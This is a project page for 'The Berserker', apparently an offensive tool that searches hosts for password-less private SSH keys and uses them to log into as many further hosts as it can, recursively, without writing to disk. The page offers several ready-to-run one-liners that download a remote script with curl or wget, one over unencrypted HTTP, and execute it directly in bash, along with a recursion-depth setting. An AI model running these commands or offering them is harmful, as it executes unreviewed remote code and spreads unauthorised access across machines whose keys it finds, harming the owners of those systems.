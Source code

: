 ```yaml
---
layout: default
title: The Berserker
description: A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/berserker/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-berserker-v1.html margin-top="0" margin-bottom="4rem" %}

<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

__The Berserker__ looks for password-less ssh-keys (such as `~/.ssh/id_rsa`) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start __The Berserker__:

```shell
export BS="$(curl -fsSL https://thc.org/ssh-it/bs)" && bash -c "$BS"
```

or:

```shell
export BS="$(wget -O- https://thc.org/ssh-it/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

## Tips & Tricks

* Press `CTRL-C` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to `BS_DEPTH=1` will make The Berserker log into the next host but not any farther.

```shell
export BS="$(curl -fsSL https://thc.org/ssh-it/bs)" && bash -c "BS_DEPTH=1 $BS"
```

## When HTTPS is not available

```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

## Alpha Testing

THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:

* #!adm for testing and comments

## Contact

{% include contact-details.md %}
